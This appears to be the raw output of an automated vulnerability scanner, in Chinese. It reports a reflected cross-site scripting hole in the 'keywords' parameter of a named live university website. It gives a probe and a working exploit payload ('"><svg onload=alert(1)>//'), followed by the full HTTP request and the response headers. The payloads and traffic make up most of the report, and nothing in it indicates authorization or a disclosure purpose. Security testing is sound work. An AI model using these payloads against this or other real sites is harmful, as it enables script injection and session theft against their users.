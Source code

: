 ## https://ies.ecust.edu.cn/en/msg.php
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 17:17:41 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | keywords |
| 描述 | html标签未转义，可攻击 |
| Payload | keywords="><ns9jh0> |
| 利用payload | keywords="><svg onload=alert(1)>// |

### 请求包
```
GET /en/msg.php?api_key=m9tw2&callback=fs3m7&cat=syd73&emailto=q1q02&id=172&key=i4di2&keywords=%22%3E%3Cns9jh0%3E&l=qbsr9&lang=lkm90&list_type=hekl8&p=q43j3&password=q4el6&redirect=qt9l0&s=cypq1&terms=qeak3&text=quyk9&token=hw0w2&type=i10p5&uid=pqtv0&year=fw7u6 HTTP/1.1
Host: ies.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Date: Thu, 07 Nov 2024 17:17:38 GMT
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
Content-Type: text/html
X-Download-Options: noopen noopen
Pragma: no-cache
X-Xss-Protection: 1; mode=block 1; mode=block
Set-Cookie: PHPSESSID=443be0rd78bdgfps7us2i2rth3; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
Connection: keep-alive
Referrer-Policy: strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-Permitted-Cross-Domain-Policies: master-only master-only
Server: none
X-Content-Type-Options: nosniff nosniff
Expires: Thu, 19 Nov 1981 08:52:00 GMT

```
